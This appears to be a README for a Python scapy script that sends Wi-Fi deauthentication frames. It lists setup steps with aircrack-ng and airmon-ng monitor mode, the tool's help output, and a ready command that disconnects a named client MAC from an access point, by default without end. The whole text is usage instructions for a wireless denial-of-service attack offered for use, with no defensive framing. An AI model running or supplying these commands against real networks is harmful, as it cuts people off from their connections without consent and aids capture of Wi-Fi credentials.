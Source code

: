to run this:
- Linux Machine.
- USB WLAN Stick.
- aircrack-ng.
- Turn the network interface to Monitor mode using the command:
    ```
    airmon-ng start wlan0
    ```
- `pip3 install -r requirements.txt`.
- 
    ```
    python3 scapy_deauth.py --help
    ```
    **Output**:
    ```
    usage: scapy_deauth.py [-h] [-c COUNT] [--interval INTERVAL] [-i IFACE] [-v]
                         target gateway

    A python script for sending deauthentication frames

    positional arguments:
    target                Target MAC address to deauthenticate.
    gateway               Gateway MAC address that target is authenticated with

    optional arguments:
    -h, --help            show this help message and exit
    -c COUNT, --count COUNT
                            number of deauthentication frames to send, specify 0
                            to keep sending infinitely, default is 0
    --interval INTERVAL   The sending frequency between two frames sent, default
                            is 100ms
    -i IFACE              Interface to use, must be in monitor mode, default is
                            'wlan0mon'
    -v, --verbose         wether to print messages
    ```
    For instance, if you want to deauthenticate `"00:ae:fa:81:e2:5e"` on an access point `"e8:94:f6:c4:97:3f"`, you can easily by:
    ```
    python3 scapy_deauth.py 00:ae:fa:81:e2:5e e8:94:f6:c4:97:3f -i wlan0mon -v
    ```